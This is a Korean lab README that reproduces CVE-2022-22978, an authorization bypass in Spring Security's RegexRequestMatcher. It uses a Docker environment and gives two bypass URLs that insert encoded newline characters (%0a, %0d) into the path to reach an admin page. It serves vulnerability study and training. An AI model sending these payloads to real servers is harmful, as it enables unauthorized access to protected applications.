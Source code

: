 

# Spring Security RegexRequestMatcher 인증 우회 취약점 (CVE-2022-22978)

화이트햇 스쿨 3기(17반) -  [박성현](https://github.com/sh1220)
</br>

</br>

Spring Security 프레임워크는 Spring 프레임워크에서 보안 인증 기능을 제공하는 데 사용됩니다.  
Spring Security 버전 5.5.6, 5.6.3 및 그 이하의 지원되지 않는 버전들에서는,  
정규 표현식에 `.`(닷)을 사용하는 `RegexRequestMatcher`를 활용하는 애플리케이션이  
인증 우회(Authorization Bypass) 취약점에 노출될 수 있습니다.

## 참고 자료

- [Tanzu Security Advisory - CVE-2022-22978](https://tanzu.vmware.com/security/cve-2022-22978)
- [GitHub - DeEpinGh0st/CVE-2022-22978](https://github.com/DeEpinGh0st/CVE-2022-22978)

## 취약점 환경 구축

아래 명령어를 실행하여 Spring Security 5.6.3을 기반으로 한 웹 애플리케이션을 시작합니다:

```bash
docker compose up -d
```

서버가 정상적으로 기동된 이후,
브라우저에서 <http://your-ip:8080/admin>로 접속합니다:

![](forbidden.png)

## 취약점 재현 방법

다음과 같이 요청을 보내면 인증 없이 관리자 페이지에 접근할 수 있습니다:
- http://your-ip:8080/admin/%0atest
- http://your-ip:8080/admin/%0dtest

우회에 성공하면 정상적으로 접근되는 화면이 나타납니다.

![](forbidden.png)